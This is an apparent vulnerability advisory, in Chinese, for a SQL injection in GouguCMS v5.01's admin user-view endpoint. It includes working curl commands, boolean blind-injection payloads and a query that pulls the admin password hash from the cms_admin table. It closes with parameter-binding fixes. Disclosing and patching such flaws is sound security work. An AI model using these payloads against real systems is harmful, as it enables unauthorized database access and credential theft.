







# 勾股CMS 后台管理用户查看功能SQL注入漏洞

厂商: 勾股工作室
产品: 勾股CMS（GouguCMS）
版本: v5.01（全版本受影响）
漏洞类型: SQL注入（代码注入）
漏洞编号: CNVD-GOUGU-2026-001

## 漏洞概述（Descriptions）

勾股CMS是一套基于ThinkPHP8 + Layui + MySQL打造的轻量级、高性能开源内容管理系统（CMS），面向中小企业提供快速建站、后台权限管理等基础功能，其源码托管于Gitee平台（https://gitee.com/gouguopen/gougucms）。

在系统后台管理模块中，管理员信息查看功能（Admin控制器的view方法）在处理用户传入的id参数时，未进行任何安全过滤，直接将用户可控的参数值通过PHP字符串插值语法拼接到SQL查询的WHERE子句中，导致SQL注入漏洞。

访问正常的管理员信息查看页面（id=1），页面正常展示管理员信息：

<div align="center"></div>

当id参数中包含单引号字符时（id=1'），触发SQL语法错误，系统返回500错误页面，证实了SQL注入的存在：

<div align="center"></div>

利用布尔盲注技术，可通过比较不同payload返回的页面大小差异，逐字节提取数据库中任意数据。

## 漏洞代码分析（Vulnerable Code Analysis）

漏洞位于 `/app/admin/controller/Admin.php` 第207-213行：

<div align="center"></div>

1. `get_params('id')` 函数（定义在/app/common.php）直接调用 `Request::instance()->param($key)`，返回原始用户输入，未经过任何SQL安全过滤
2. 双引号字符串中的 `{$id}` 语法会将变量值直接展开到SQL语句中
3. 尽管ThinkPHP框架的QueryBuilder在其他地方使用参数绑定（如数组形式的where条件），此处错误地使用了原始字符串拼接
4. 开发者未意识到在WHERE子句中使用字符串插值同样会导致SQL注入

**相同模式的其他位置：**

该SQL注入编码模式在全项目中共出现2次（均为同一开发者编写），另一处位于 `/app/admin/middleware/Auth.php` 第72行。

## 概念验证（Proof of Concept）

### 验证环境
- 测试URL: `http://127.0.0.1:8080`
- 管理员账号: admin / admin123
- 测试工具: curl + Python PoC脚本

### 步骤1：登录获取Session

访问后台登录页面，使用管理员凭据登录获取Session Cookie：

<div align="center"></div>

```bash
curl -c cookie.txt -X POST http://127.0.0.1:8080/admin/login/login_submit \
  -d "username=admin&password=admin123"
```


### 步骤2：布尔盲注验证

**正常请求（id=1）**：

```bash
curl -s -b cookie.txt "http://127.0.0.1:8080/admin/admin/view?id=1"
# 返回 HTTP 200，页面大小 30,835 字节
```

<div align="center"></div>


**True条件注入（id=1' AND '1'='1）**：

```bash
curl -s -b cookie.txt "http://127.0.0.1:8080/admin/admin/view?id=1'+AND+'1'='1"
# 返回 HTTP 200，页面大小 30,835 字节（与正常页面相同，条件为真）
```

<div align="center"></div>


**False条件注入（id=1' AND '1'='2）**：

```bash
curl -s -b cookie.txt "http://127.0.0.1:8080/admin/admin/view?id=1'+AND+'1'='2"
# 返回 HTTP 200，页面大小 30,044 字节（比正常小791字节，条件为假）
```

<div align="center"></div>


**语法错误验证（id=1'）**：

```bash
curl -s -b cookie.txt "http://127.0.0.1:8080/admin/admin/view?id=1'"
# 返回 HTTP 500，触发ThinkPHP错误页面
```

<div align="center"></div>


### 步骤3：数据提取（布尔盲注）

提取数据库名首字符示例：
```bash
# 判断 DATABASE() 第一个字符的ASCII码是否大于100
curl -s -b cookie.txt \
  "http://127.0.0.1:8080/admin/admin/view?id=1'+AND+ASCII(SUBSTRING(DATABASE(),1,1))>100--+-"
# 通过页面大小判断真/假条件，二分法逐字符提取
```

### PoC脚本

完整的自动化利用脚本见 `./poc/exploit.py`，使用方法：
```bash
python3 exploit.py --url http://127.0.0.1:8080 --user admin --pass admin123 --extract database
```

<div align="center"></div>

### Payload构造示例

```
GET /admin/admin/view?id=1'+AND+(SELECT+SUBSTRING(pwd,1,16)+FROM+cms_admin+LIMIT+1)='hash_prefix'+--+-
```

## 验证结果（Result）

在本地搭建的GouguCMS v5.01测试环境中，使用curl工具对漏洞进行了完整验证：

**布尔盲注验证结果：**

| 测试Payload | HTTP状态码 | 响应大小 | 说明 |
|-------------|-----------|---------|------|
| id=1 | 200 | 30,835 字节 | 正常查询，返回管理员信息 |
| id=1' AND '1'='1 | 200 | 30,835 字节 | True条件，与正常相同 |
| id=1' AND '1'='2 | 200 | 30,044 字节 | False条件，返回空数据 |
| id=1' | 500 | 6,625 字节 | SQL语法错误，ThinkPHP报错 |

**验证结论：**
- 单引号成功逃逸SQL字符串上下文，触发语法错误（500响应）
- 布尔条件成功影响SQL查询结果（响应大小差异791字节）
- 注入点位于WHERE子句，支持子查询和条件注入


## 修复建议（Fix Recommendation）

### 修复前（存在漏洞的代码）

<div align="center"></div>

### 修复后（安全的代码）

**方案一：使用数组参数绑定（推荐）**

```php
$user_groups = Db::name('AdminGroupAccess')
        ->alias('a')
        ->join("AdminGroup g", "a.group_id=g.id", 'LEFT')
        ->where([['a.uid', '=', $id], ['g.status', '=', '1']])  // 数组参数绑定
        ->select()
        ->toArray();
```

**方案二：使用命名参数绑定**

```php
$user_groups = Db::name('AdminGroupAccess')
        ->alias('a')
        ->join("AdminGroup g", "a.group_id=g.id", 'LEFT')
        ->where('a.uid = :uid and g.status = :status', ['uid' => $id, 'status' => '1'])
        ->select()
        ->toArray();
```

**方案三：输入校验（深度防御）**

```php
// 在方法开头添加输入校验
$id = get_params('id');
if (!is_numeric($id) || $id <= 0) {
    return to_assign(1, '参数错误');
}
$id = (int)$id;  // 强制类型转换
```

**全局修复建议：** 全项目搜索并替换所有使用PHP字符串插值构建SQL WHERE子句的代码模式，统一改为ThinkPHP数组参数绑定方式。建议在代码审查流程中加入SQL注入检测规则（如禁止在Db::name()->where()中使用双引号字符串）。
